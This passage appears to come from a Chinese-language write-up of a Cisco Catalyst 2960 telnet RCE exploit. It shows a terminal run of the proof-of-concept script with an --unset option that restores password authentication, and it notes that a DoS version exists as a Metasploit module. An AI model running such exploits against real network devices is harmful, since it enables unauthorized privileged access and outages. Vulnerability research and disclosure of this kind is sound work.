 撤消更改: 



```
$ python c2960-lanbasek9-m-12.2.55.se11.py 192.168.88.10 --unset
[+] Connection OK
[+] Recieved bytes from telnet service: 'xffxfbx01xffxfbx03xffxfdx18xffxfdx1frncatalyst1#'
[+] Sending cluster option
[+] Unsetting credless privilege 15 authentication
[+] All done
$ telnet 192.168.88.10
Escape character is '^]'.
User Access Verification
Password:
```

这个RCE漏洞的POC代码可用于两种固件版本。这个漏洞利用代码的DoS版本可作为metasploit模块使用，适用于Cisco报告中提到的大多数型号的交换机。
